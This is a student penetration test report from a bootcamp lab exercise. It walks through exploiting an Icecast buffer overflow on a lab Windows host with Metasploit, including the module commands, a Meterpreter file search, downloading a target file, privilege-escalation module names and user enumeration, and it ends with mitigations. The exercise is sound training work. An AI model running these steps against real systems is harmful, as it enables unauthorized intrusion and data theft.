







# GoodSecurity Penetration Test Report

[samwel@GoodSecurity.com](mailto:samwel@GoodSecurity.com)

Date: 7/11/2021  

Samwel

UoM Cybersecurity Bootcamp 2021

## High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorps CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans computer and determine if it is at risk. GoodSecurity's overall objective was to exploit any vulnerable software and find the secret recipe file on Hans' computer, while reporting the findings back to GoodCorp.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Hans' desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploiting two programs that had major vulnerabilities. The details of the attack can be found in the Findings category.

1. Findings

Machine IP: 192.168.0.20

Hostname: MSEDGEWIN10

Vulnerability Exploited:

The name of the script or Metasploit module used: exploit/windows/http/icecast_header

- 8000/tcp open http Icecast streaming media server

Vulnerability Explanation:

Explain the vulnerability as best you can by explaining the attack type (i.e., is it a heap overflow attack, buffer overflow, file inclusion, etc.?) and briefly summarize what that attack is (Might need Googlehelp!)

Icecast application running on 192.168.0.20 allows for a buffer overflow exploit where an attacker can remotely connect and take control of the victim's system by overwriting the memory on the system on utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers.

Reconnaissance of usernames on system.

In your expert opinion, how severe is this vulnerability?

Severity: High because the attacker can access the target remotely.

There should be a separate finding for each vulnerability found!

The system was also found to be vulnerable to the following exploits:

- exploit/windows/local/ikeext_service

This module exploits a missing Dynamic Link Library loaded by the Internet Key Exchange and AuthIP Keyring Modules (IKEEXT) service which runs as SYSTEM. There is probably an insecure bin path to plant the DLL payload.

- exploit/windows/local/ms16_075_reflection.

Module utilizes the Net-New Technology LAN Management v2 reflection between Distributed Component Object Module/Remote PC to achieve a SYSTEM handle for elevation of privilege. Currently the module does not spawn as SYSTEM, however once achieving a shell, one can easily use incognito to impersonate the system token.

## Proof of Concept

This is where you show the steps you took. Show the client how you exploited the software services. Please include screenshots!

- Instructions.

You've been provided full access to the network and are getting ping responses from the CEO's workstation.

- Perform a service and version scan using Nmap to determine which services are up and running:

- Run the Nmap command that performs a service and version scan against the target.

 Answer: nmap -sV 192.168.0.20

- From the previous step, we see that the Icecast service is running. Lets start by attacking that service. Search for any Icecast exploits:

- Run the Searchsploit commands to show available Icecast exploits.

Answer: searchsploit icecast

- Now that we know which exploits are available to us, let's start Metasploit:

- Run the command that starts Metasploit:

 Answer: msfconsole

- Search for the Icecast module and load it for use.

- Run the command to search for the Icecast module:

 Answer: search icecast

- Run the command to use the Icecast module:

*Note:* Instead of copying the entire path to the module, you can use the number in front of it.

Answer: use 0 or use exploit/windows/http/icecast_header

- Set the RHOST to the target machine.

- Run the command that sets the RHOST:

 Answer: set RHOST 192.168.0.20

- Run the Icecast exploit.

- Run the command that runs the Icecast exploit.

Answer: run

- Run the command that performs a search for the secretfile.txt on the target.

 Answer: search -f *secretfile*.txt

- You should now have a Meterpreter session open.

- Run the command to performs a search for the recipe.txt on the target:

 Answer:search -f *recipe*.txt

- *Bonus* : Run the command that exfiltrates the recipe*.txt file:

 Answer:download c:\Users\IEuser\Documents\Drinks.recipe.txt

- You can also use Meterpreter's local exploit suggester to find possible exploits.

- *Note:* The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
- run post/multi/recon/local_exploit_suggester

- *Bonus*

A. Run a Meterpreter post script that enumerates all logged on users.

Answer: run post/windows/gather/enum_logged_on_users

B. Open a Meterpreter shell and gather system information for the target.

Answer: shell

C. Run the command that displays the target's computer system information:

Answer: systeminfo

 

- Recommendations.

Mitigation:

The icecast exploit is a vulnerability that may result in complete compromise of vulnerable system and it can be fixed with patching by Installing the latest versions of icecast software.

1. Encrypt all files/folders that you want to keep a secret.
2. Enable your windows firewall with inbound rules to only allow traffic on needed ports. This will deter the remote non-authenticated attacker from exploiting the system.
3. Use https service - an internet secure communications protocol that protects the integrity and confidentiality of data between client and server.
